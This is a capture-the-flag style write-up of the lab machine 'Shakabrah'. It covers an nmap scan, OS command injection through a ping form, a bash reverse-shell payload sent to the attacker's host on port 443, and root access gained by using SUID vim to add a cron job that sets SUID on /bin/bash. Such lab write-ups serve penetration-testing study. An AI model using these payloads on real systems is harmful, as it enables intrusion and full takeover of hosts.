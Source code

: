 --------------------------------
# Shakabrah Writeup
--------------------------------

## Info-sheet
- IP-address: 192.168.122.86
- DNS-Domain name: N/A
- Host name: Shakabrah
- OS: Linux

## Overview
This box is quit easy box, gaining foothold through OS command injection on the website, and get root access by abusing misconfigured SUID perm on `vim.basic`.

-------
## Recon
-------
Services and ports:
```bash
# Nmap 7.91 scan initiated Sun Sep  5 21:44:33 2021 as: nmap -v -A -oN scans/nmap.txt -Pn 192.168.122.86  
Nmap scan report for 192.168.122.86  
Host is up (0.085s latency).  
Not shown: 998 filtered ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)  
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)  
|_  256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose  
Running (JUST GUESSING): Linux 4.X|5.X (85%)  
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5  
Aggressive OS guesses: Linux 4.15 - 5.6 (85%), Linux 5.0 - 5.3 (85%)  
No exact OS matches for host (test conditions non-ideal).  
Uptime guess: 0.789 days (since Sun Sep  5 02:48:42 2021)  
Network Distance: 2 hops  
TCP Sequence Prediction: Difficulty=251 (Good luck!)  
IP ID Sequence Generation: All zeros  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE (using port 80/tcp)  
HOP RTT       ADDRESS  
1   106.94 ms 192.168.49.1  
2   106.93 ms 192.168.122.86  
  
Read data files from: /usr/bin/../share/nmap  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Sun Sep  5 21:45:03 2021 -- 1 IP address (1 host up) scanned in 30.06 seconds
```

## Foothold
### Port 80 - Web server
/index.php
- The web page showing a form that let us enter IP address and to verify if it up or not
- entered input: `127.0.0.1`
```bash

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.056 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.057 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.042 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3070ms
rtt min/avg/max/mdev = 0.022/0.044/0.057/0.014 ms
```
- Possible template command being run on the server --> `ping -c 4 $input`
- If there no filtering of the input, we may be able to perform *OS command injections*
- For PoC, we entered input: `; id`, the `;` gonna end the ping command and so execute our command `id`
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- possible command that ran on the server: `ping -c 4; id`

--------
## Exploitation
--------

### Port 80 - Web server
##### OS command injection
- We want to get reverse shell back, using simple bash reverse shell payload `bash -i >& /dev/tcp/$LHOST/1337 0>&1`
- Full payload to injection `; /bin/bash -c 'bash -i >& /dev/tcp/192.168.49.122/1337 0>&1'`
- Setup listener: `nc -lvnp 1337`
- Executed the payload, we're not recieve any connection back sadly
- Possibly, there some *firewall* setted up on the server, preventing outbound connection to some abnormal ports, like `1337` for example
- We change our listening port to port 443, a default port for Https/SSL
- set up listener and execute payload again
- We got connection back
```bash
kenobi@cg-home:~$ sudo nc -lvp 443
listening on [any] 443 ...
192.168.122.86: inverse host lookup failed: Unknown host
connect to [192.168.49.122] from (UNKNOWN) [192.168.122.86] 55428
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- stabalize our shell, by spawning tty shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@shakabrah:/var/www/html$
```

------------
## Privilege Escalation
------------

### SUID
- We perform basic SUID enumeration: `find / -perm -4000 2>/dev/null`
```bash
www-data@shakabrah:/var/www/html$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
... SNIP ...
/bin/umount
/bin/fusermount
/usr/bin/newgidmap
/usr/bin/pkexec
--> /usr/bin/vim.basic <--
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
... SNIP ...
```
- vim.basic have SUID permission, this mean we be able to edit any files with permission as root using this binary
- We edit `/etc/crontab`, and add `* *  * * * *  root  chmod +s /bin/bash`
```bash
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab'  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
  
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
# Example of job definition:  
# .---------------- minute (0 - 59)  
# |  .------------- hour (0 - 23)  
# |  |  .---------- day of month (1 - 31)  
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...  
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat  
# |  |  |  |  |  
# *  *  *  *  * user-name command to be executed  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) 
*  *    * * *   root    chmod +s /bin/bash
#
```
- What this does is, it add a task to be run concurrently every minute, and the task is to add SUID bit permission to /bin/bash as root
- We wait for a min, check /bin/bash permission: `ls -la /bin/bash`
```bash
-rwsr-sr-x 1 root root 1234376 Feb 24  2021 /bin/bash
```
- Now we can use [[https://gtfobins.github.io]] as a reference for SUID bit perm on `/bin/bash`
- If you an experienced pen-tester, we already know we can run `/bin/bash -p` to spawn shell with SUID privilege.
```bash
www-data@shakabrah:/$ /bin/bash -p
bash-5.1# id
uid=33(www-data) gid=33(www-data) groups=33(www-data) euid=0(root) egid=0(root) groups=0(root)
bash-5.1# whoami
root
bash-5.1#
```

##### Rooted!

###### References
- https://gtfobins.github.io/
- https://www.offensive-security.com/labs/individual/
